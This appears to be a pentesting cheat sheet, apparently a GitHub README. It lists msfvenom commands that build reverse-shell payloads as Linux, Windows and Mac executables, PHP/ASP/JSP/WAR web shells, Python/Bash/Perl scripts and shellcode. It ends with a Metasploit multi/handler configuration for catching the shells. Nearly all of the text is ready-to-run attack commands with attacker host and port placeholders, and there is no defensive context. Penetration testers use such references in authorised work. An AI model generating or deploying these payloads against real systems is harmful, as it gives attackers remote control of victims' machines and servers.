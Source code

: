 **Random Pentesting Scripts**

List payloads
=============
`msfvenom -l`

Binaries
========
Linux

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

Windows
=======
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

Mac
===
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

Web Payloads
============
PHP
---
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`
`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

ASP
---
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

JSP
---
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

WAR
---
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

Scripting Payloads
==================
Python
------
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

Bash
----
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

Perl
----
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

Shellcode
---------
For all shellcode see `msfvenom –help-formats` for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

Linux Based Shellcode
---------------------
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

Windows Based Shellcode
-----------------------
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

Mac Based Shellcode
-------------------
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>`

Handlers
--------
Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

`use exploit/multi/handler`
`set PAYLOAD <Payload name>`
`set LHOST <LHOST value>`
`set LPORT <LPORT value>`
`set ExitOnSession false`
`exploit -j -z`

Once the required values are completed the following command will **execute your handler** – `msfconsole -L -r`

